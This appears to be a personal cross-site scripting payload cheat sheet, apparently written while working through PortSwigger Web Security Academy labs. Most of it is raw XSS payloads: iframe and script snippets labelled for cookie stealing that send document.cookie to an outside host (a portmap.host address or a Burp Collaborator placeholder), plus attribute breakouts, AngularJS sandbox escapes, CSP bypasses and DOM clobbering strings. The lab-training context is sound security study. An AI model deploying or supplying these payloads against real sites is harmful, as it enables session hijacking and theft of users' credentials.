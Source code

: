 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
|||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101='+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:console.log(document.cookie); location='http://pip3lee101-64604.portmap.host:64604/?lee101='+document.cookie;" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >


<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookie stelling HREF
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});


|||||||||||||||||||||||||||||||||||||||||||||||||||||
HTML HTML HTML entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;
|||||||||||||||||||||||||||||||||||||||||||||


for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>


for anchor HREF inputs this payload to store <a src="javascript:alert(1)">LIKE website</a> ++++===>
javascript:alert(1)
http://foo?&apos;-alert(1)-&apos;


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
\'-alert(1)//
${alert(1)}
<><img src=1 onerror=alert(1)>
</script><script>alert(1)</script>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>


||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url and id payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
/?'accesskey='x'onclick='alert(1)
"><svg><animatetransform onbegin=alert(1)>
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';